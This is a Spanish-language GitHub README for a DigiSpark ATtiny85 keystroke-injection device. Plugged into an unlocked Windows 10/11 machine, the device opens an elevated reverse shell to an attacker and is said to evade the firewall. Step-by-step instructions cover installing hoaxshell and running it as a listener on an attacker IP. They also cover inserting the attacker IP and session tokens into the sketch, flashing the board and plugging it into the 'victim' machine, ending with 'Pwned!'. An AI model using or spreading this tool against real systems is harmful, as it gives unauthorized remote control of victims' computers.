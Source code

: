## 📄 Descripción
Script para **DigiSpark ATtiny85** que genera una shell inversa con permisos elevados desde una máquina Windows víctima hacia una máquina atacante, logrando evadir el firewall. El ataque se activa al conectar el dispositivo al puerto USB con la sesión iniciada: el DigiSpark emula un teclado e inyecta los comandos de forma automática, sin intervención del usuario, estableciendo la conexión con la máquina atacante.

## ⚠️ Compatibilidad 

Este proyecto **solo funciona correctamente bajo las siguientes condiciones**:
- 🪟 **Sistema operativo victima**: Windows 10/11
- ⌨️ **Distribucion de teclado victima**: Español Latam (Puede configurarse para otras distribuciones en el propio script .ino)
- 🖥️ **Sesión activa**: Escritorio desbloqueado y sesión iniciada

 
## 🛠️ Requerimientos
1. Tener instalado Arduino IDE [Ver Arduino IDE](https://www.arduino.cc/en/software/)
2. Descargar e instalar DigiStump Board 1.6.7 a traves del Boards Manager de Arduino (Configuración)
```
   https://raw.githubusercontent.com/digistump/arduino-boards-index/refs/heads/master/package_digistump_index.json
```
3. Copiar la carpeta DigisparkKeyboard del repositorio y pegarla en:
```
C:\Users\tu_usuario\AppData\Local\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\
```
3. Descargar e instalar la herramienta Hoaxshell de su repositorio oficial:
```
git clone https://github.com/t3l3machus/hoaxshell
```
*Seguir los pasos de instalación y configuración propias del repositorio oficial de hoaxshell* 

## 🚀 Uso

1. Ejecutar Hoaxshell.py, copiar el token generado en $i y dejar ejecutandose
```python
python3 ./hoaxshell.py -s IP_ATACANTE -r -H 'Authorization'
```
![image](https://github.com/user-attachments/assets/8da49bb0-b57a-4613-9a5a-1bc4f6299157)


2. Abrir Arduino con el script, modificar las variables y seleccionar Digispark 16.5 Board:

- IP_AND_PORT_ATTACKER: Pegar tu IP y puerto de maquina atacante
- TOKEN: Pegar el token generado por hoaxshell
- TOKEN_PART1: Pegar primera parte del token
- TOKEN_PART2: Pegar segunda parte del token
- TOKEN_PART3: Pegar tercera parte del token

![image](https://github.com/user-attachments/assets/9418035f-eaa7-4b05-ae3b-a7bd19dd68d6)



3. Compilar y cargar a nuestro ATTINY-85

4. Conectar el dispositivo a la máquina victima y esperamos la respuesta en nuestra máquina de atacante.

5. Pwned!
   
![image](https://github.com/user-attachments/assets/5c8ce65b-5abe-4dae-a521-7f1f90dc95a5)



